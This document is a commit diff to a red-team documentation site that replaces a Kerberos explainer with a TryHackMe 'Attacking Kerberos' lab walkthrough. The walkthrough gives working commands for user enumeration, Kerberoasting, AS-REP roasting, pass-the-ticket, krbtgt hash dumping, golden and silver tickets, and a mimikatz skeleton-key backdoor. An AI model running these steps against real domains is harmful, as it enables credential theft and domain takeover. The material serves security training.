

Before and after one commit to tymyrddin/red-network, a Sphinx documentation site: the page built from source/docs/ad/kerberos.md, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with Sphinx 7.4.7 and the Read the Docs theme 2.0.0, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

````diff
--- a/source/docs/ad/kerberos.md
+++ b/source/docs/ad/kerberos.md
@@ -1,73 +1,272 @@
-# Kerberos authentication
+# Attacking kerberos
 
-## Transport layer
+## Attack tree
 
-Kerberos uses UDP or TCP as transport protocol, which sends data in cleartext. Kerberos is responsible for providing encryption.
-Ports used by Kerberos are UDP/88 and TCP/88.
+```text
+1 Discovery
+    1.1 Scan ports
+    1.2 Enumerate 139/445
+2 Enumerate DC users (AND)
+3 Harvesting & brute-forcing tickets
+4 Kerberoasting
+5 AS-REP roasting
+6 Pass the ticket
+7 Golden/silver ticket attacks
+    7.1 Dump the krbtgt hash
+    7.2 Create a golden/silver ticket
+    7.3 Use the ticket to access other machines
+8 Kerberos backdoors
+```
 
-## Agents
+## Example
 
-The agents working together to provide authentication in Kerberos:
+The example was made from doing the [THM: Attacking Kerberos room](https://tryhackme.com/room/attackingkerberos)
 
-* Client or user who wants to access to the service.
-* Application Server (AP) which offers the service required by the user.
-* Key Distribution Center (KDC), responsible for issuing the tickets, installed on the Domain Controller (DC). It is
-supported by the Authentication Service (AS), which issues the TGTs.
+### Discovery
 
-## Encryption keys
+#### Scan with nmap
 
-There are several tickets. Many of those structures are encrypted or signed in order to prevent being tampered by
-third parties.
+    # nmap -sV -sC -T4 <Machine_IP>
 
-* KDC or krbtgt key, which is derived from the krbtgt account NTLM hash.
-* User key, derived from user NTLM hash.
-* Service key, derived from the NTLM hash of the service owner, which can be a user or computer account.
-* Session key, which is negotiated between the user and KDC.
-* Service session key to be used between user and service.
+### Enumerate DC users
 
-## Tickets
+Add the following line to `/etc/hosts` file (as root):
 
-Tickets are delivered to users for enabling actions in the Kerberos realm:
+    <IP address target> CONTROLLER.local
 
-* The Ticket Granting Service (TGS) is the ticket for authenticating with a service. It is encrypted with the service
-key.
-* The Ticket Granting Ticket (TGT) is the ticket presented to the KDC to request a TGSs. It is encrypted with the KDC
-key.
+Enumerate users with kerbrute
 
-## PAC
+    /opt/kerbrute/kerbrute userenum --dc CONTROLLER.local -d CONTROLLER.local User.txt -t 100
 
-The Privilege Attribute Certificate (PAC) is included in almost every ticket. It contains the privileges of the user
-and is signed with the KDC key. Services can verify the PAC by communicating with the KDC (does not happen often) by
-checking its signature. What is not verified is whether privileges inside the PAC are correct. And a client can avoid
-the inclusion of the PAC inside the ticket by specifying it in the `KERB-PA-PAC-REQUEST` field of the ticket request.
+### Harvesting & brute-forcing tickets
 
-## Messages
+#### Harvesting
 
-![Kerberos](../../_static/images/kerberos.png)
+ssh into the machine:
 
-1. KRB-AS-REQ - The client requests an Authentication Ticket or Ticket Granting Ticket (TGT).
-2. KRB-AS-REP - The Key Distribution Center verifies the client and sends back an encrypted TGT.
-3. KRB-TGS-REQ - The client sends the encrypted TGT to the Ticket Granting Server (TGS) with the Service Principal
-Name (SPN) of the service the client wants to access.
-4. KRB-TGS-REP - The Key Distribution Center (KDC) verifies the TGT of the user and that the user has access to the
-service, then sends a valid session key for the service to the client.
-5. KRB-AP-REQ - The client requests the service and sends the valid session key to prove the user has access.
-6. KRB-AP-REP - The service grants access
+    $ ssh administrator@<Machine_IP>
 
-## Kerberos tickets overview
+Move to the directory where Rubeus is:
 
-The main ticket that you will see is a ticket-granting ticket. These can come in various forms such as a `.kirbi`
-for Rubeus, `.ccache` for Impacket. A ticket is typically base64 encoded and can be used for various attacks.
+    cd Downloads
+    dir
 
-* A normal TGT will only work with the given service.
-* A KRBTGT allows for getting any service ticket, in turn allowing access to anything on the domain.
+Harvest the tickets:
 
-## Attack privilege requirements
+    Rubeus.exe harvest /interval:30
 
-* Kerbrute Enumeration - No domain access required
-* Pass the Ticket - Access as a user to the domain required
-* Kerberoasting - Access as any user required
-* AS-REP Roasting - Access as any user required
-* Silver Ticket - Service hash required
-* Golden Ticket - Full domain compromise (domain admin) required
-* Skeleton Key - Full domain compromise (domain admin) required
+#### Password spraying
+
+Before password spraying with Rubeus, add the domain controller domain name to the **windows** host file.
+Add the IP and domain name to the hosts file from the machine:
+
+    echo MACHINE_IP CONTROLLER.local >> C:\Windows\System32\drivers\etc\hosts
+
+navigate to the directory Rubeus is in:
+
+    cd Downloads
+
+Password spraying (with a given password and "spray" it against all found users then give the .kirbi TGT for that user):
+
+    Rubeus.exe brute /password:Password1 /noticket
+
+Success! Machine1.
+
+### Kerberoasting
+
+If the service has a registered SPN then it can be Kerberoastable:
+
+    Rubeus.exe kerberoast
+
+Roast with impacket:
+
+    cd /opt/impacket/examples
+    sudo python GetUserSPNs.py controller.local/Machine1:Password1 -dc-ip <Machine_IP> -request
+
+The result is 2 service account with their hashes. Save both in separate files (sql-roast.txt and
+http-roast.txt), and crack with hashcat using the provided Pass.txt.
+
+    wget https://raw.githubusercontent.com/Cryilllic/Active-Directory-Wordlists/master/Pass.txt
+    hashcat -m 13100 -a 0 http-roast.txt Pass.txt
+    hashcat -m 13100 -a 0 sql-roast.txt Pass.txt
+
+### AS-REP Roasting
+
+ssh into the machine:
+
+    $ ssh administrator@<Machine_IP>
+
+Move to the directory where Rubeus is:
+
+    cd Downloads
+    dir
+
+Roast:
+
+    Rubeus.exe asreproast
+
+Two AS-REP hashes. One for Admin2 and one for user3. And this is where it gets tricky. I was stuck
+here for a full day.
+
+Copy the hashes separately into file on the linux machine (user3.txt and admin2.txt):
+
+* name the file after the found username followed by .txt
+* Insert 23$ after $krb5asrep$ so that the first line will be $krb5asrep$23$User…..
+* Make sure there are no spaces when saving it to a txt file
+
+The hash type of AS-REP Roasting is Kerberos 5 AS-REP etype 23 (mode 18200 for hashcat):
+
+    hashcat -m 18200 user3.txt Pass.txt
+    hashcat -m 18200 admin2.txt Pass.txt
+
+### Pass the ticket
+
+ssh into the machine:
+
+    $ ssh administrator@<Machine_IP>
+
+Move to the directory where Mimikatz is and start her up:
+
+    cd Downloads
+    dir
+    mimikatz.exe
+
+If the following command does not return `output '20' OK`, you do not have the administrator privileges to run mimikatz.
+
+    mimikatz # privilege::debug
+    output '20' OK
+
+Export all `.kirbi` tickets into the directory that you are currently in:
+
+    mimikatz # sekurlsa::tickets /export
+
+It takes a bit of puzzling to find the Administrator ticket. But I found it:
+
+```text
+        Group 2 - Ticket Granting Ticket
+         [00000000]
+           Start/End/MaxRenew: 9/20/2022 8:34:55 AM ; 9/20/2022 6:34:55 PM ; 9/27/2022 8:34:55 AM
+           Service Name (02) : krbtgt ; CONTROLLER.LOCAL ; @ CONTROLLER.LOCAL
+           Target Name  (02) : krbtgt ; CONTROLLER.LOCAL ; @ CONTROLLER.LOCAL
+           Client Name  (01) : Administrator ; @ CONTROLLER.LOCAL ( CONTROLLER.LOCAL )
+           Flags 40e10000    : name_canonicalize ; pre_authent ; initial ; renewable ; forwardable ;
+           Session Key       : 0x00000012 - aes256_hmac
+             8d36d5959add7925a6858358c89c110542d58859ed2322ceb064db6f74238534
+           Ticket            : 0x00000012 - aes256_hmac       ; kvno = 2        [...]
+           * Saved to file [0;1c4707]-2-0-40e10000-Administrator@krbtgt-CONTROLLER.LOCAL.kirbi !
+```
+
+Cache and impersonate the ticket:
+
+    mimikatz # kerberos::ptt [0;1c4707]-2-0-40e10000-Administrator@krbtgt-CONTROLLER.LOCAL.kirbi
+
+    * File: '[0;1c4707]-2-0-40e10000-Administrator@krbtgt-CONTROLLER.LOCAL.kirbi': OK
+
+### Golden/silver ticket attacks
+
+#### Dump the sqlservice and Administrator hash
+
+SQLservice:
+
+```text
+mimikatz # lsadump::lsa /inject /name:sqlservice
+Domain : CONTROLLER / S-1-5-21-432953485-3795405108-1502158860
+
+RID  : 00000455 (1109)
+User : sqlservice
+
+* Primary
+    NTLM : cd40c9ed96265531b21fc5b1dafcfb0a
+    LM   :
+  Hash NTLM: cd40c9ed96265531b21fc5b1dafcfb0a
+...
+```
+Administrator:
+
+```text
+mimikatz # lsadump::lsa /inject /name:Administrator
+Domain : CONTROLLER / S-1-5-21-432953485-3795405108-1502158860
+
+RID  : 000001f4 (500)
+User : Administrator
+
+ * Primary
+    NTLM : 2777b7fec870e04dda00cd7260f7bee6
+    LM   :
+  Hash NTLM: 2777b7fec870e04dda00cd7260f7bee6
+...
+```
+
+#### Dump the krbtgt hash
+
+ssh into the machine:
+
+    $ ssh administrator@<Machine_IP>
+
+Navigate to the directory mimikatz is in and run mimikatz:
+
+    cd downloads && mimikatz.exe
+
+Ensure this outputs [privilege '20' ok]:
+
+    privilege::debug
+
+Dump the hash as well as the security identifier needed to create a Golden Ticket. To create a silver ticket,
+change the `/name:` to dump the hash of either a domain admin account or a service account such as the SQLService
+account.
+
+    lsadump::lsa /inject /name:krbtgt
+
+#### Create a golden/silver ticket
+
+Create a golden ticket to create a silver ticket (put a service NTLM hash into <krbtgt>, the sid of the service
+account into <sid>, and set the <id> to 1103:
+
+    Kerberos::golden /user:<username> /domain:controller.local /sid:<sid> /krbtgt:<krbtgt> /id<id>:
+
+The Administrator and sqlservice hashes can be used to create silver tickets.
+
+#### Use the ticket to access other machines
+
+    mimikatz # misc::cmd
+
+Access machines. It depends on the privileges of the user the ticket was taken from. With a ticket from krbtgt,
+you have access to the ENTIRE network, hence the name golden ticket.
+
+### Kerberos backdoors
+
+ssh into the machine:
+
+    $ ssh administrator@<Machine_IP>
+
+Move to the directory where Mimikatz is and start her up:
+
+    cd Downloads
+    dir
+    mimikatz.exe
+
+If the following command does not return `output '20' OK`, you do not have the administrator privileges to run mimikatz.
+
+    mimikatz # privilege::debug
+    output '20' OK
+
+Install the skeleton key:
+
+    mimikatz # misc::skeleton
+
+Access the forest (The share will now be accessible without the need for the Administrators
+password):
+
+    net use c:\\DOMAIN-CONTROLLER\admin$ /user:Administrator mimikatz
+
+## Tools
+
+* [Kerbrute](https://github.com/ropnop/kerbrute/releases/)
+
+```text
+# chmod +x filename
+# mkdir /opt/kerbrute
+# cp kerbrute_linux_amd64 /opt/kerbrute/kerbrute
+```
+
+* [Mimikatz](https://github.com/gentilkiwi/mimikatz)
--- a/source/index.rst
+++ b/source/index.rst
@@ -125,10 +125,11 @@ and in many cases security measures get tacked on. When one digs deep enough tho
 
    docs/ad/README.md
    docs/ad/overview.md
-   docs/ad/kerberos.md
+   docs/ad/authentication.md
    docs/ad/vulns.md
    docs/ad/recon.md
    docs/ad/attacktive.md
+   docs/ad/kerberos.md
 
 .. toctree::
    :glob:
````
Also changed, not shown: source/docs/ad/README.md (+2 -1 lines), source/docs/ad/attacktive.md (+8 -6 lines), source/docs/ad/authentication.md (added, +78 -0 lines).
